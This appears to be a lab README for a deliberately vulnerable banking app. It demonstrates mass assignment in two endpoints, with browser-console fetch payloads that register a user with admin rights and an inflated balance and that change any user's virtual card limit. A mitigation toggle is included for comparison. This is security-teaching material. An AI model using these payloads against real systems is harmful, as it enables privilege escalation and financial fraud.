



# Mass Assignment
MA allows any properties of a given object to be modified without any filtering or verification.

## Prerequisites
At least one user account with at least one virtual card of any balance and limit.

## Demonstrations
This vulnerability is present in two different functions within app.py. Steps for exploitation and verification of hardening are as follows.

### register()
Allows attacker to create a user account with any properties and values (e.g. admin status; inflated balance).
#### Exploit
1. Navigate/return to base URL (Vulnerable Bank homepage) and open the browser console.
2. Issue the following fetch request as a command and observe the outcome:

    `fetch('http://localhost:5000/register', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        username: 'hacker4', // Can be any string
        password: 'password123',
        is_admin: true,
        balance: 999999.99
    })
    })
    .then(response => response.json())
    .then(data => console.log(JSON.stringify(data, null, 2)))`

#### Mitigate
Return to root URL (Vulnerable Bank homepage) and click Toggle Mitigation button. Repeat attack and observe outcome:

### update_card_limit()
Allows attacker to change the limit of any virtual card.
#### Exploit
1. Log in as any user or navigate/return to root URL (Vulnerable Bank homepage) and open the browser console.
2. Issue the following fetch request as a command -- where <vc_num> is a Virtual Card ID of any user -- and observe outcome:

    `fetch('/api/virtual-cards/<vc_num>/update-limit', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'Authorization': 'Bearer ' + localStorage.getItem('jwt_token')
    },
    body: JSON.stringify({
        card_limit: 2500,
        current_balance: 999999 // illegal field for error
    }),
    }).then(async (r) => {
    console.log('HTTP', r.status);
    console.log(await r.json());
    });`

#### Mitigate
Return to root URL (Vulnerable Bank homepage) and click Toggle Mitigation button. Repeat attack and observe outcome:

